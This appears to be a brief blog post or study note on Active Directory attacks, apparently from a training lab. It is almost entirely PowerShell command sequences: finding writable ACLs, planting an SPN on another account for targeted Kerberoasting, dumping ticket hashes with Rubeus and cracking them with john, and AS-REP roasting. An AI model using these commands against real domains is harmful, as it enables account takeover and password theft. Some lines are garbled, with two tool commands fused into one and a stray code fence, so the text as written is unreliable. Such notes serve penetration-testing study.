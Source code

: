 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: Kerberoasting
---
```



- Find "Write" Permissions
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```
  
- Find SPN
```powershell
Get-DomainUser -Identity support1user | select serviceprincipalname
Get-ADUser -Identity support1user -Properties ServicePrincipalName | select ServicePrincipalName
```

- Set-SPN
```powershell
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='us/myspnX'}
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='us/myspnX'}
    ```

- Kerberoasting
```powershell
Rubeus.exe kerberoast /outfile:targetedhashes.txt john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```

## AS-REP Roasting
Find accounts without Kerberos preauthentication and request an AS-REP hash for offline cracking:
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
Invoke-ASREPRoast -Verbose
```
